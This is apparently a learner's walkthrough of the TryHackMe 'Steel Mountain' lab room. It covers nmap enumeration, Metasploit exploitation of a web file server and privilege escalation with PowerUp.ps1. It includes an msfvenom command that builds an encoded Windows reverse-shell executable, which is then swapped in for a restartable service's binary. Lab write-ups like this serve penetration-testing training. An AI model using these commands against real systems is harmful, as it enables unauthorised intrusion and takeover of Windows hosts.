

# Steel Mountain - TryHackMe Room Walkthrough


---

| **Description:**  | _Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access._ |
| ------------- | ------------- |
| **Level:**  | _Easy_   |
| **Approx Duration:**  | _45 minutes_  |
| **Author:**  | _tryhackme_  |
| **Path:**  | _Offensive Penetration Testing_  |
| **Type:**  | _Premium Room_  |

---

## Task 1

Our Task in the tryhackme room is find out the answer for the question ***Who is the employee of the month?***.

To find this I boot up the target machine attached to this room and create a tunnel connection to my kali linux using openvpn.

Target IP Address: 10.10.207.146

First step after getting the IP address would be to enumerate the machine and find as much information as possible.

To do this i am using nmap. 

```
nmap 10.10.207.146 -sV
```


From the basic nmap we can see that the target is a windows machine that is running a http service on the default port 80 and various other information which we will use later in this room.

Since this is a http service, we can visit via browser.

`http://10.10.207.146`


We found the employee of the month, but we still need to find his name. Simply by inspecting the image on the browser we can get some details about the image.


From the page source, we have identified that the name of the employee is `Bill Harper`.

---

## Task 2 - Initial Access

To find which port hosts webserver. We need to do an aggressive nmap scan.

``` 
nmap 10.10.207.146 -A -vv
```


The webserver is running on port 8080.


Bootup the metasploit consolue using `msfconsole` command and use the `search` command to look for the exploits in the found version of the webserver.


We can also search in exploit-db.com and find the CVE number of the exploit.


Once we have selected the exploit module in metasploit, we need to set the rhost to our target machine's IP address.




If you are using openvpn like me, be sure to use tunnel ip as your lhost to start the reverse shell on that ip.


With everything set, run the exploit.


Using the `shell` command. We can get the windows shell on our machine. With this we can navigate to the flag location and extract the flag.


---

## Task 3 - Privilege Escalation

We have a shell on the target machine, the shell runs with the permission of the user bill. As an attacker we need to look to escalate the privilege and get a shell that can run as root.

Download a powersploit script from `https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`.

Exit the bill shell and in the meterspreter upload PowerUp.ps1.


To load powershell in meterpreter, run the following commands:


Find the service which has canrestart set to true.


Use msfvenom to generate a reverse shell as an Windows executable.

msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

We need first upload the file in meterpreter and go the shell and stop the service, replace the legit file with the uploaded corrupt file, start a netcat listener on local machine and start the service.


Locate and read the file which contains the root.txt.


---

## Task 4